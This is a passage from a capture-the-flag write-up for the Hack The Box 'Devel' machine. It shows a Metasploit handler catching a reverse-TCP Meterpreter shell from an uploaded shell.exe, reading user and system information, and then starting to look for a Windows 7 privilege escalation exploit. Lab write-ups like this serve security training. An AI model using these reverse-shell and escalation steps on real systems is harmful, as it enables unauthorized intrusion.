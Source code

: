 ```
PS C:\windows\temp\haxor> 
```

Now back on msf 

```
msf6 exploit(multi/handler) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
```

Now on the target i just run the binary then i should get a callback from the msf listener

```
PS C:\windows\temp\haxor> .\shell.exe
PS C:\windows\temp\haxor> 
```

Now back on the msf listener

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.7:4444 
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.16.7:4444 -> 10.10.10.5:49170) at 2023-01-20 02:26:55 +0100

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

Now searching for the OS exploit on google brings this 
![image](https://user-images.githubusercontent.com/113513376/213600984-7f9eb225-fe3a-47d1-abe2-dcd7ce30717e.png)

Lets try it out!

There's already a compiled .exe binary so i'll download it on my machine then transfer it to the target
![image](https://user-images.githubusercontent.com/113513376/213601141-6de66f58-c6fb-4c3a-9aa0-cb3db914140d.png
